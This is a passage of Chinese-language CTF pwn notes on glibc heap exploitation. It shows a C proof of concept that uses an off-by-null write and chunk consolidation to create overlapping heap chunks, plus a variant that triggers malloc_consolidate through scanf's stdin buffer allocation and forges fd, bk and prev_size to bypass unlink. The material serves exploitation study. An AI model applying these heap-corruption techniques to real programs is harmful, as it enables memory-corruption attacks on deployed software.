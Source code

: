 ```python

    free(chunk2);  // make chunk prev_size for chunk 2 size
    *(char*)(chunk2-8)=0;

    char* chunk4=malloc(0x80);   // needed into unsortedbin  else unlink can't pass
    char* chunk5=malloc(0x80);  //  part of emainder can control remainder  
    free(chunk4);

    free(chunk3);   // merge 
    char* chunk6=malloc(0x410);
    
    printf("chunk5 data begin %p \n",chunk5);

    printf("&chunk6[0x90] %p \n",&chunk6[0x90]);

}
```

```c
chunk5 data begin 0x55555555b2b0 
&chunk6[0x90] 0x55555555b2b0 
```

### size限制
[2021 DJBCTF Writeup](https://www.anquanke.com/post/id/229711)
[CTF PWN 题之 setbuf 的利用](https://paper.seebug.org/450/)

如果不能释放和申请 tcache/fastbin 范围之外的 chunk （合并需要unsortedbin）则可以构造如下结构，通过 scanf("%d", &id) 时输入会调用产生如下调用栈来申请 1024（0x400）大小的堆块触发 malloc_consolidate 实现堆块合并，最终造成堆块重叠。

```c
#0  __GI___libc_malloc (bytes=1024) at malloc.c:3033
#1  0x00007ffff7a8ea79 in __GI__IO_file_doallocate (fp=0x7ffff7dd2a00 <_IO_2_1_stdin_>) at filedoalloc.c:101
#2  0x00007ffff7a9cd66 in __GI__IO_doallocbuf (fp=fp@entry=0x7ffff7dd2a00 <_IO_2_1_stdin_>) at genops.c:365
#3  0x00007ffff7a9bd7c in _IO_new_file_underflow (fp=0x7ffff7dd2a00 <_IO_2_1_stdin_>) at fileops.c:495
#4  0x00007ffff7a9ce22 in __GI__IO_default_uflow (fp=0x7ffff7dd2a00 <_IO_2_1_stdin_>) at genops.c:380
#5  0x00007ffff7a7e48f in _IO_vfscanf_internal (s=<optimized out>, format=<optimized out>, argptr=argptr@entry=0x7fffffffdb38, errp=errp@entry=0x0) at vfscanf.c:630
#6  0x00007ffff7a8cd4f in __isoc99_scanf (format=<optimized out>) at isoc99_scanf.c:37

```
`malloc_consolidate合并对于高地址chunk的合并策略如下，同时为了绕过unlnk，还需伪造fd，bk，和prev_size
```c
	  nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

	  if (!nextinuse) {
	    size += nextsize;
	    unlink(av, nextchunk, bck, fwd);
	  } else
	    clear_inuse_bit_at_offset(nextchunk, 0);
```

